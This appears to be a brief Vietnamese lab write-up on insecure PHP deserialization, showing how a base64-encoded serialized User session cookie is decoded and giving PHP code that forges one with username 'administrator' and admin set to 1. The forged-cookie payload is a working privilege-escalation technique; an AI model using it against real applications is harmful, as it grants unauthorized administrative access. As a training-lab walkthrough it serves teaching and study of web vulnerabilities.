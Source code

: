 Bài này thì là mức đọ thấp

Khi mà đăng nhập thì sẽ có một session ở trong ta nhận thấy rằng mã này như urlenc
Nên ta sử dụng và lại ra được một mã hóa có dạng bas64 sau đó ta được mã có dạng
       O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}


Nhìn vào kết quả trả ra ta có thể nhận định rằng sever dùng serialization để mã hóa session 
class Usẻ có dạng :
class User{
    public $username;
    public $admin;
}
ở đây sẽ check admin=1 or 0 để xác nhận người dùng có phải admin không ngoài ra ta có thể đổi thành chuỗi bất kì vì còn chứa lỗi type juggling

Ta có thể sử dụng các công cụ hoặc code như sau:
class User{
    public $username="administrator";
    public $admin= 1;
}
$user=new User();
echo urlencode(base64_encode(serialize($user)));

hoặc  khởi tạo xong rồi gán
class User{
    public $username;
    public $admin;
}
$user=new User();
$user->username="administrator";
$user->admin=1;
echo urlencode(base64_encode(serialize($user)));

và 3 2 1 pùm
cảm ơn đã theo dõi:<